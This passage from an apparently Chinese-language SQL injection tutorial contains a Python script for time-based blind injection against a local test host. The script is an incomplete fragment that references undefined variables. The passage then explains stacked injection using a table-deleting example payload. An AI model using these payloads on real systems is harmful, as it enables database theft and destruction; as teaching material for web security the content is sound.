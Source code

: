 ```python
def main():
    string = ''
    url1 = 'http://127.0.0.1/?id= 1 and if((length(database())='
    extend = 0
    for k in range(20):
        url = url1 + str(k) + '),benchmark(1000000,md5(\'test\')),NULL); %23'
        r = requests.get(url)
        time = r.elapsed.total_seconds()
        if time > 1.5:
            extend = k
            break
    for i in range(1,extend+1):
        for payload in payloads:
            url = urlx + str(i) + ',1)=\''
            url = url + payload + '\'),benchmark(1000000,md5(\'test\')),NULL); %23'
            r = requests.get(url)
            time = r.elapsed.total_seconds()
            if time > 1.5:
                string += payload
                break
    print(f'available database\n[*] {string}')
    guess_table()
    
main()
```



### 堆叠注入



在SQL中，分号`;` 是用来表示一条sql语句的结束。试想一下，我们在结束一个sql语句后继续构造下一条语句，会不会一起执行？ 因这个想法也就造就了堆叠注入。



再想一下，联合注入也是将两条语句合并在一起，两者之间有什么区别么？



区别就在于 union 或者union all执行的语句类型是有限制的，可以用来执行的是**查询语句**，**而堆叠注入可以执行的是任意的语句**。 例如以下这个例子。用户输入：`1; DELETE FROM products;` 服务器端生成的sql语句为：`select * from products where id=1;DELETE FROM products;` 当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。



但是，这种堆叠注入也是有局限性的。堆叠注入的局限性在于并不是每一个环境下都可以执行，**可能受到API或者数据库引擎不支持的限制**，当然**权限不足**也可以解释为什么攻击者无法修改数据或者调用一些程序。



虽然我们前面提到了堆叠查询可以执行任意的sql语句，但是这种注入方式并不是十分的完美的。在有的Web系统中，因为代码通常只返回一个查询结 果，因此，堆叠注入第二个语句产生的错误或者执行结果只能被忽略，我们在前端界面是无法看到返回结果的。因此，在读取数据时，建议配合使用 union  联合注入。



一般存在堆叠注入的都是由于使用 `mysqli_multi_query()` 函数执行的sql语句，该函数可以执行一个或多个针对数据库的查询，多个查询用分号进行分隔。



##### 注入流程
